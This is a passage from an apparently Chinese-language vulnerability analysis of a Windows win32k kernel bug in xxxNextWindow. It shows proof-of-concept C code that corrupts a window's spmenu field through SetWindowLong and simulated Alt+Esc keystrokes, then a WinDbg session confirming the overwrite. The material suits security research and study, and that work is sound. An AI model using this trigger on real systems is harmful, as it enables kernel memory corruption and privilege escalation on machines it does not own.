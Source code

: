 ```
    if (!RegisterClassEx(&wc))
    {
        bRet = FALSE;
        ShowError("RegisterClassEx", GetLastError());
        goto exit;
    }

    // 创建触发漏洞的窗口
    hwnd = CreateWindowEx(NULL, 
                          pClassName,
                          NULL,
                          WS_VISIBLE,
                          0, 0, 100, 100, 
                          hDesktop,           // 指定父窗口为桌面窗口
                          0,
                          GetModuleHandle(NULL),
                          0);
    if (!hwnd)
    {
        bRet = FALSE;
        ShowError("CreateWindowEx", GetLastError());
        goto exit;
    }

    // 设置子窗口带WS_CHILD标记
    // 这样GetNonChildAncesstor就会返回其父窗口，即hDesktop
    SetWindowLong(hwnd, GWL_STYLE, (WS_VISIBLE | WS_CHILD));

    // 设置子窗口的spwnd
    SetWindowLong(hwnd, GWL_ID, 0x1900);

    // 将桌面窗口，也就是父窗口置于最前面
    // 模拟Alt + Esc按键触发漏洞
    SwitchToThisWindow(hDesktop, TRUE);
    keybd_event(VK_MENU, 0, 0, 0);
    keybd_event(VK_ESCAPE, 0, 0, 0);

exit:
    return bRet;
}
```  
  
  
在xxxNextWindow函数验证spmenu是否为0处下断点，编译运行POC，可以看到此时的spmenu已经被修改为指定的值：  
```
kd> ba e1 win32k!xxxNextWindow + 0x3D0
kd> g
Breakpoint 0 hit
win32k!xxxNextWindow+0x3cf:
96eb859e 394b78          cmp     dword ptr [ebx+78h],ecx
kd> r ebx
ebx=fea14d48
kd> dt tagWND fea14d48
win32k!tagWND
   +0x078 spmenu           : 0x00001900 tagMENU
```  
  